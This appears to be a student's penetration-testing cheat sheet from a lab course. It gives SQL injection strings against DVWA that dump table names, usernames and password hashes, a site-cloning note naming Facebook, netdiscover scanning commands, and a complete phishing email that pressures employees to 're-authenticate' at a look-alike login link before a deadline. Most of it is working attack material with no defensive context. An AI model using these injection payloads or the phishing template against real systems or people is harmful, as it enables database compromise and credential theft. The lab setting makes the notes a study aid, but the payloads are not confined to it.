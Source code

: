# SQLi
When DVWA security is set to LOW:
1.)Reveals all user is:1' OR '1'='1'#

2.)Reveals name of all tables in the database:'UNION SELECT table_name, NULL FROM information_schema.tables#

3.)Reveals all the column names form 'users' table:'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#

4.)Reveals all the usernames and password hashes:'UNION SELECT user, password FROM users#

# Siteclone
https://facebook.com

# John the Ripper
https://www.stationx.net/how-to-use-hydra/

# netdiscover
Command | Explanation

sudo netdiscover | Auto-scans your current subnet to find live hosts.

sudo netdiscover -r 192.168.1.0/24 | Scans a specific subnet range manually.

sudo netdiscover -f | Performs a fast scan with less accuracy.

sudo netdiscover -i eth0 | Uses a specific network interface (e.g., eth0 or wlan0).

sudo netdiscover -r 192.168.1.0/24 > output.txt | Saves scan results to a text file.

sudo netdiscover -s | Continuously scans and updates live devices in real-time.

sudo netdiscover -p | Passive mode: silently listens to ARP traffic without sending packets.

# Phishing
Subject: [Action Required] System Security Update – Verify Your Account

Dear [Employee Name],

As part of our institution's routine security maintenance, we are rolling out an update to the internal login portal. To ensure uninterrupted access, all users are required to re-authenticate their credentials.

Please verify your account by visiting the secure portal at the link below:

https://institution-login-verification.example.com

This must be completed by 6:00 PM today to prevent temporary access restrictions.

Thank you for your prompt attention.

Sincerely,
IT Support Team
[Institution Name]
